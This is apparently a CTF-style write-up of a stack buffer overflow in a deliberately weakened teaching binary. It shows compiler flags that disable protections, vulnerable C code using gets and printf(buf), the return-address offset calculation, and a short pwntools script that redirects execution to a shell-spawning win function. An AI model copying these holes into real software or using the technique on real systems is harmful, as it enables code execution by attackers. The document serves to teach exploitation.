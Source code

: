 # stack buffer overflow in `chal`

# The program & how it was compiled

You compiled with:

```
gcc -g -o chal -z execstack -fno-stack-protector -z norelro -no-pie -fcf-protection=none chal.c -std=c99
```

Meaning of the important flags:

- `-g` — include debug symbols.
- `-fno-stack-protector` — **disable stack canaries** (so no canary will prevent overflows).
- `-no-pie` — disable PIE → the binary is loaded at a fixed base address (addresses in the binary are static).
- `-z execstack` — mark the stack executable (not needed for this exploit, but it allows shellcode execution in other scenarios).
- `-z norelro` — disable RELRO (affects GOT; not important here).
- `-fcf-protection=none` — disable control-flow protections.
  All these options intentionally **weaken** protections for teaching/CTF.

  > donot forget to add `-std=c99`

---

# The source and vulnerable spots

```c
int main(void) {
    char buf[0x20];          // 32 bytes

    dump_stack();

    printf("Input: ");
    gets(buf);               // <-- classic unsafe function: no bounds checking
    printf("Output: ");
    printf(buf);             // <-- also dangerous: format-string if buf contains % directives
    putchar('\n');

    dump_stack();
    return 0;
}
```

Two vulnerabilities:

1. **Buffer overflow** via `gets(buf)` — `gets` reads until newline with no length check, so user can overflow past `buf`.
2. **Format-string problem** via `printf(buf)` — if attacker supplies `%s`, `%p`, `%n`, etc., they can leak memory or write memory. In your exploit you didn’t use format specifiers, so the format-string was not leveraged — the vulnerability used is the overflow.

`win()` function:

```c
void win(void) {
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```

So redirecting control flow to `win` yields a shell.

`dump_stack()` prints a region of stack including buffer, saved RBP and (saved) return address; useful to visualize layout.

---

# Stack layout (typical x86_64, frame-pointer used)

When `main()` has `char buf[0x20]` and is compiled with frame pointers, the stack (high → low addresses) around buffer looks like:

```
[ higher addresses ]
 ... (caller frames)
 saved RIP  <-- return address (8 bytes)
 saved RBP  <-- 8 bytes
 local variables (buf)  <-- 0x20 = 32 bytes
[ lower addresses ]
```

When you overflow `buf`, bytes write sequentially upward: first overwrite other local data, then saved RBP (8 bytes), then saved RIP (8 bytes). To control return address (RIP) you must write `sizeof(buf) + sizeof(saved RBP)` bytes of padding before your intended RIP value.

So the offset to RIP = `0x20 (32) + 8 (saved RBP) = 40` bytes.

---

![first](./img/first.png)

# exploit

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

p = process('./chal')
elf = ELF('./chal')


win_addr = elf.symbols['win']

payload = b'A' * 32
payload += b'B' * 8
payload += win_addr.to_bytes(8, 'little')

p.recvuntil(b'Input: ')

p.sendline(payload)

p.interactive()
```

![result](./img/result.png)

---
